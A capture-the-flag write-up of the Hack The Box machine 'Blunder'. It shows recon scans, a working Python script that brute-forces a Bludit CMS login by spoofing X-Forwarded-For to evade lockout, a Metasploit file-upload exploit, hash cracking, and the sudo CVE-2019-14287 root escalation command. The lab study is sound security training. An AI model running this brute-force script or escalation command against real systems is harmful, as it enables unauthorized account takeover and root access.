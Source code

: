 # Blunder
![alt text](https://www.hackthebox.eu/storage/avatars/6437ea67350beceeb5c313f386bd1abe_thumb.png)
Hack the Box, Blunder
Easy, Linux, 20 Points

# Reconnaisance
  - Nmap

    ```bash
    nmap -A -T5 -oN nmap.txt -vv 10.10.10.191

    # Nmap 7.60 scan initiated Wed Jun  3 23:28:58 2020 as: nmap -A -T5 -oN nmap.txt -vv 10.10.10.191
    Increasing send delay for 10.10.10.191 from 0 to 5 due to 11 out of 20 dropped probes since last increase.
    Nmap scan report for 10.10.10.191
    Host is up, received syn-ack (0.21s latency).
    Scanned at 2020-06-03 23:28:58 +08 for 187s
    Not shown: 998 filtered ports
    Reason: 998 no-responses
    PORT   STATE  SERVICE REASON       VERSION
    21/tcp closed ftp     conn-refused
    80/tcp open   http    syn-ack      Apache httpd 2.4.41 ((Ubuntu))
    |_http-generator: Blunder
    | http-methods: 
    |_  Supported Methods: POST
    |_http-title: Blunder | A blunder of interesting facts
    
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Jun  3 23:32:05 2020 -- 1 IP address (1 host up) scanned in 186.94 seconds

    ```
# Website Enum
  - Gobuster
  
    ```
    gobuster -u http://10.10.10.191/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt' -x php,html,txt
    /admin
    /todo.txt
    ```
    Note Found in /todo.txt
    ```
    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING
    ```
    From the note, we have user 'fergus' mentioned.
    Login page found in /admin
    Generate Password wordlist from the website using cewl
    ```bash
    cewl -d 10 -m 8 -w wordlist http://10.10.10.191
    ```
    bruteforce the login using this [script](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) as reference
    here is my working script
    ```python
    #!/bin/python
    
    import re
    import requests
    #import http.client 
    host = 'http://10.10.10.191'
    login_url = host + '/admin/'
    username = 'fergus'
    wordlist = []
    
    file = open('wordlist','r')
    for word in file:
        wordlist.append(word)
    
    
    for password in wordlist:
        session = requests.Session()
        login_page = session.get(login_url)
        try:
            csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
        except:
            csrf_token = None
        print('[*] Trying: {p}'.format(p = password))
        #http.client._is_legal_header_name = re.compile(rb'[^\s][^:\r\n]*').fullmatch
        headers = {
            'X-Forwarded-For': password.strip(),
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }
    
        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password.strip(),
            'save': ''
        }
    
        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = True)
    
        #print(login_result.text)
        if '/admin/dashboard' in login_result.text:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
    ```



# User Access

to gain user access, we need to exploit bludit's arbitrary file upload vulnerability.
here i'm using metasploit, but it can also be done by using the php exploit.
here is the [link](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec) to the rapid7 website regarding the module that will be used.

![alt text](https://i.imgur.com/X2hdtiF.png)
after getting shell as www-data, we can try to enumerate the website deployment directory to find the password hash of the user 'hugo'.

Inside 
    ```
    /var/www/bludit-3.10.0a/bl-content/databases    
    ```
we can find "users.php" that contains the hash of user 'hugo'

![alt text](https://i.imgur.com/cFUhSOs.png)

we can try to analyze the hash in this [website](https://www.tunnelsup.com/hash-analyzer/) and turns out that the hash is actually SHA1. Then we can try to crack it online. i found this [website](https://md5decrypt.net/en/Sha1/) worked.

after getting the password, We can su to hugo and get the user flag inside hugo's homme directory.

![alt text](https://i.imgur.com/LxyFvDM.png)

# Privilege Escalation

Since we have the password of hugo already, we can try to execute 
    ``` 
    $ sudo -l
    ```
this will return the sudo privilege of the user 'hugo'

    
    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash
    

From the result above, we can see that this machine may vulnerable to the famous vulnerability sudo that can help user escalate privilege by passing unisgned user id. You can read the details [here](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)

we can exploit it with a simple command. Since the sudo can work with bash, so we can try to execute
    ```
    $ sudo -u#-1 /bin/bash
    ```
from that simple command we can directly get a root shell   
![alt text](https://i.imgur.com/I8r0HzY.png)

